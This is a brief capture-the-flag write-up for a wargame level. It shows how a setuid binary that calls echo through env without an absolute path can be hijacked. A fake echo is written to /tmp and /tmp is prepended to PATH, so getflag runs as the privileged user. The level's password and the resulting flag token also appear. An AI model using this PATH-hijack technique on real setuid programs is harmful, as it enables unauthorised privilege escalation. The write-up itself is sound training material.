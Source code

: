 su level03 -> kooda2puivaav1idi4f57q8iq

Check the permissions of the file:

```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The binary is owned by flag03, and it prints "Exploit Me". it also has the s permission, which means it will be run as flag03, so we would like this binary to execute getflag.

With ltrace level03, we see that this executable runs the line: system("/usr/bin/env echo Exploit me").

We try to modify echo with `echo getflag > /bin/echo` but i obviously doesn't work.

One exploit that is present in the level03 executable, is that echo is not designed with an absolute path, so we could make it use our own echo.

```
echo getflag > /tmp/echo
chmod +x /tmp/echo
export PATH="/tmp:$PATH"
./level03
```

./level03 -> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus